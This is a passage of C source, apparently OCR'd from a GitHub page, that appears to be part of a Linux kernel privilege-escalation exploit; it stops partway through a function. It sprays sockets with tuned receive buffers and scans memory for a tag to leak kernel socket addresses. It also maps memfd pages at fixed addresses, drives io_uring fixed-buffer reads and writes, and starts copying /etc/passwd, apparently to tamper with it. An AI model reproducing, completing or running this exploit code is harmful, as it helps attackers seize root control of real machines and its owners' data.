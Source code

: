 ```
    // sk->sk_rcvbuf = ((0x20000+fd)*2)
    int rcvbuf = SET_RCVBUF(fd);
    if (setsockopt(fd, SOL_SOCKET, SO_RCVBUF, &rcvbuf, sizeof(int)) < 0) 	
        die("failed to set SO_SNDBUF");
    return fd;
}
int leak_sock_addr(void* addr,uint64_t size){
    int  ret = -1;
    uint64_t* tmp = (uint64_t* )addr;
    for (size_t i = 0; i < size/8; i++)
    {
        // if( tmp[i] != 0)
        //     logi(" addr: %p offset: 0x%llx -> %p",addr+i,i,tmp[i]);
        if(tmp[i]==SOCKET_TAG){
            logw("successful!! addr: %p offset: 0x%llx -> %p",addr+i*8,i*8,tmp[i]);
            if(ret == FAILED && tmp[i+1]==SOCKET_TAG) 
                ret = i*8 -472 + 0x10 ;
        }     
    }
    return ret;  
}
void memfds_bind_virtual(int fd, int size){
    for (size_t i = 0; i < size; i++)
    {
        if( mmap(VIR_START_ADDR+i*PAGE_SIZE , PAGE_SIZE,PROT_READ|PROT_WRITE,
                       MAP_SHARED|MAP_FIXED,fd,0 )==MAP_FAILED )
                       die("failed mmap memfds_buf");
    }
}
void submit_sqe(struct io_uring* ring,int fd,void* buf, unsigned int size,int FLAGS){
    struct io_uring_sqe * sqe;
    struct io_uring_cqe* cqe;
    int ret;
    sqe = io_uring_get_sqe(ring);
    switch (FLAGS)
    {
    case SUBMIT_WRITE:
        io_uring_prep_write_fixed(sqe,fd,buf,size,0,0);
        break;
    case SUBMIT_READ:
        io_uring_prep_read_fixed(sqe,fd,buf,size,0,0);
        break;
    default:
        return;
    }
    ret = io_uring_submit(ring);
    if (ret < 0) {
        die("failed io_uring_submit");
    }
    io_uring_wait_cqe(ring,&cqe);
    io_uring_cqe_seen(ring,cqe);
}
void prep_file(){

    FILE *sourceFile, *destFile;
    char buffer[256];

    sourceFile = fopen("/etc/passwd", "r");
    if (sourceFile == NULL) {
        die("open failed");
    }
    destFile = fopen("/home/mowen/passwd", "w");
    if (destFile == NULL) {
```